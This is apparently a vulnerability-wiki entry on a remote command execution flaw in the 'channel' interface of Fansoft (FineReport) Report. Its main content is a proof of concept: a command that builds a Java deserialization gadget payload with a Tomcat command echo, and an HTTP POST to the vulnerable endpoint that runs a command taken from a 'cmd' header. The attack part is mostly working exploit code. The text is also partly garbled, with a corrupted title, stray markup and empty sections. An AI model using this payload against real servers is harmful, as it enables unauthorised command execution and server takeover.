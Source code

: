 #现全文档文档档档档档 channel remote command execution vulnerability

## Vulnerability Description

The channel interface has a remote command execution vulnerability. An attacker can obtain server permissions through the vulnerability and attack the server.

## Vulnerability Impact

Fansoft Report</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1685439448593-9afc647d-ba30-452c-928e-9a6a49c04edd.png)

Verify POC

```php
java -jar ysuserial-1.5-su18-all.jar -g CommonsBeanutils1183NOCC -p 'EX-TomcatEcho' -ch "cmd" > fine10.bin

POST /webroot/decision/remote/design/channel HTTP/1.1
Content-Type: application/json
Host: 
cmd: id
Connection: close

%7B%7Bgzip%28file%28fine10.bin%29%29%7D%7D
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1685439538732-8dee3451-21ea-427e-9f75-6ba5c29e3567.png)